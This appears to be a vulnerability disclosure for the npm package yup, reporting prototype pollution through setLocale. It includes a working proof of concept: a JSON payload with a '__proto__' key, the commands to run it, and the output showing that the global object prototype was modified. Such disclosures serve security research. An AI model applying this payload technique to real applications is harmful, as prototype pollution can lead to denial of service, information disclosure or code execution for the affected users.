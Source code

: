 # Description

`yup` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
let yup = require('yup');
const payload = JSON.parse('{"__proto__":{"polluted":"Yes! Its Polluted"}}');
yup.setLocale(payload);
console.log({}.polluted)
```

2. Execute the following commands in another terminal:

```bash
npm i yup # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Yes! Its Polluted
```
